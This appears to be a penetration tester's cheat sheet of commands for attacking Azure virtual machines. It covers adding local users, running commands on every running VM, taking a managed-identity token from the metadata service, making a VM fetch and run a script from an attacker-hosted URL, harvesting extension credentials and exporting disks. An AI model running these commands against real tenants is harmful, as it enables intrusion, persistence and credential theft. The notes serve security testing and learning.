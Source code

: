 - Create a local user on a VM
	- Using Azure CLI
		- `az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>`
	- Using PowerShell
		- `Get-AzVM`
		- `Set-AzVMAccessExtension -ResourceGroupName "<Resource_Group>" -Location "<Location>" -VMName "<VM_Name>" -Name "<Extension_Name>" -TypeHandlerVersion "2.4" -UserName "<Username>" -Password "<Password>"`
		- OR
		- `Set-AzVMAccessExtension -ResourceGroupName "PENTEST-RG" -VMName "winvm01" -Credential (get-credential) -typeHandlerVersion "2.0" -Name VMAccessAgent`
- Authenticate to VMs with local credentials
	- With RDP
		- `Get-AzPublicIpAddress -Name winvm01* | Select IpAddress`
			- If the VM does not have a public IP or RDP is not listening, Contributor permissions can be used to expose the service (MAJOR RISK)
	- With Run Command (using VM agent)
		- List out running Windows VMs and cast to the VMs variable
			- `$VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}`
		- Pass VMs to Invoke-AzVMRunCommand
			- `$VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1`
				- Can use indices of VMs variable to pass commands to only select VMs rather than all of them (eg. $VMs\[0\])
	- From Azure REST APIs (useful especially for using a token to a managed identity)
		- Obtain an access token (from a VM with a managed identity)
			- `curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq`
		- Execute commands (PowerShell)
			- `$mgmtToken = "TOKEN GOES HERE"`
			- `Invoke-AzVMCommandREST -commandToExecute "whoami > test.txt" -managementToken $mgmtToken 204cce89-27de-4669-a48b-04c27255e05e`
- Execute script with VM extensions
	- Host the script at some URI, then execute this:
		- `Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://attacker.webserver.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension`
	- [Attacking Azure with Custom Script Extensions (netspi.com)](https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-with-custom-script-extensions/)
- Credential Harvesting
	- VM extension settings
		- Domain join extension
			- Microburst - `Get-AzureVMExtentionSettings`
			- PowerShell ISE can store old scripts/credentials
			- [Decrypting Azure VM Extension Settings with Get-AzureVMExtensionSettings (netspi.com)](https://www.netspi.com/blog/technical/cloud-penetration-testing/decrypting-azure-vm-extension-settings-with-get-azurevmextensionsettings/)
	- Disk Export and Snapshot Export
		- Can export a disk and generate a temp URL to download it (only for disks not attached to running VMs)
		- For disks attached to VMs, create a snapshot and then export that.
		- If encrypted, you'll need a key from the key vault
		- PowerZure
			- Get list of all unattached VM disks
				- ` Get-AzDisk | Where-Object {$_.DiskState -ne "Attached"} | Select Name, DiskState, Encryption`
			- Generate a public URL to export the disk
				- `Get-AzureVMDisk -DiskName <DISK_NAME_FROM_STEP_4>`